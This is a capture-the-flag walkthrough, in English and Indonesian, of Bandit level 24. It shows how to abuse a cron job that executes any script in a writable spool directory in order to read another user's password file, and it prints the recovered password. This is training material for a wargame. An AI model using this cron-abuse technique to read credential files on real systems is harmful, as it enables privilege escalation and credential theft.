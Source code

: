 ```yaml
---
layout: default
level: 24
name_file: level
---
```


{% include level-section.html %}

# soal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level! \
NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# solve
- check cronjob file
    ```bash
    cd /etc/cron.d
    cat cronjob_bandit24
    # @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    # * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    ```

- check the file ````cat /usr/bin/cronjob_bandit24.sh```
    ```bash
    #!/bin/bash

    myname=$(whoami)

    cd /var/spool/$myname/foo
    echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
    for i in * .*;
    do
        if [ "$i" != "." -a "$i" != ".." ];
        then
            echo "Handling $i"
            owner="$(stat --format "%U" ./$i)"
            if [ "${owner}" = "bandit23" ]; then
                timeout -s 9 60 ./$i
            fi
            rm -f ./$i
        fi
    done

    # disini jika saya teliti di file ini akan pergi ke location folder tertentu dulu /var/spool/$myname/foo
    # setelah itu dia akan melakuakn looping pada semua file di dalamnya
    # dan akan mengekseskusinya dan setelah itu menghapusnya
    ```

- check the permissions
    ```bash
    ls -lad /var/spool/bandit24/foo
    # drwxrwx-wx 23 root bandit24 4096 Dec 10 09:52 /var/spool/bandit24/foo
    ls -la /var/spool/bandit24/foo
    # ls: cannot open directory '/var/spool/bandit24/foo': Permission denied

    ## kita tidak memiliki akses read pada folder namun kita memiliki akses write yang artinya
    ## kita bisa menaruh file di directory tersebut yang nantinya akan di eksekusi oleh cronjob
    ```

- try create file tmp for location pass
    ```bash
    echo -e "\n[+] output ----------" # debug
    workdir=$(mktemp -d)
    cd $workdir
    touch pass

    ls -lad $workdir
    # drwx------ 2 bandit23 bandit23 4096 Dec 10 09:57 /tmp/tmp.wp45LLE77H
    ## disini bisa kita lihat bahwa tmp tersebut tidak bisa di write jadi kita perlu mengubah permissions nya juga

    chmod -R 777 $workdir
    ls -lad $workdir
    # drwxrwxrwx 2 bandit23 bandit23 4096 Dec 10 09:57 /tmp/tmp.wp45LLE77H
    ls -la pass

    echo -e "\n[+] output ----------" # debug
    echo -e "[+] change the dir write for $(pwd)/pass" # debug
    ```

- try executable fro cat the pass
    ```bash
    cd /var/spool/bandit24/foo
    cat > cat_pass << EOF
    #!/bin/bash

    cat /etc/bandit_pass/bandit24 > # the path
    EOF

    ls -la cat_pass
    chmod 777 cat_pass
    cat $workdir/pass
    ```

- tunggu hingga file terhapus, dan pass terisi
    ```bash
    ls -la cat_pass
    # -rwxrwxrwx 1 bandit23 bandit23 81 Dec 10 10:17 cat_pass
    cat $workdir/pass

    ls -la cat_pass
    # ls: cannot access 'cat_pass': No such file or directory
    cat $workdir/pass
    # gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

    ## jika masihh gagal kemungkinan kesalahan di permissions
    ## atau di location file
    ```

# flag
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8